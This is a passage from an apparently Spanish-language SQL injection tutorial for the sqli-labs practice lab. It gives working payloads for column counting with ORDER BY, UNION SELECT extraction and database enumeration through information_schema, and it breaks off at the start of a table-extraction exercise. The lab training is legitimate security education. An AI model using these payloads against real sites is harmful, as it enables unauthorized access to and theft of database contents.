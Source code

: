📌 **Si aparece un error SQL**, significa que el parámetro `id` es vulnerable.

## **Práctica 2: Determinar el Número de Columnas (ORDER BY)**

**Objetivo:** Encontrar cuántas columnas tiene la consulta SQL.

**Pasos:**
1️⃣ En la URL, prueba el siguiente payload:

```bash
http://localhost/sqli-labs/Less-1/?id=1 ORDER BY 1 -- -
```

2️⃣ Incrementa el número hasta encontrar el error:

```bash
http://localhost/sqli-labs/Less-1/?id=1 ORDER BY 5 -- -
```

📌 **El número justo antes del error es el total de columnas.**

## **Práctica 3: Inyección UNION para Extraer Datos**

**Objetivo:** Obtener información de la base de datos con `UNION SELECT`.

**Pasos:**
1️⃣ Encuentra el número de columnas (ejercicio anterior).
2️⃣ Usa `UNION SELECT` para probar qué columnas pueden mostrar datos:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,2,3 -- -
```

3️⃣ Extrae la base de datos actual:

```sqlite
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,database(),3 -- -
```

## **Práctica 4: Enumeración de Bases de Datos**

**Objetivo:** Listar todas las bases de datos disponibles.

**Pasos:**
1️⃣ Usa `UNION SELECT` para extraer bases de datos:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata -- -
```

📌 **Resultado esperado:** Aparecerán nombres de bases de datos como `security`, `information_schema`, etc.

## **Práctica 5: Extraer Tablas de la Base de Datos**

**Objetivo:** Obtener todas las tablas de la base `security`.

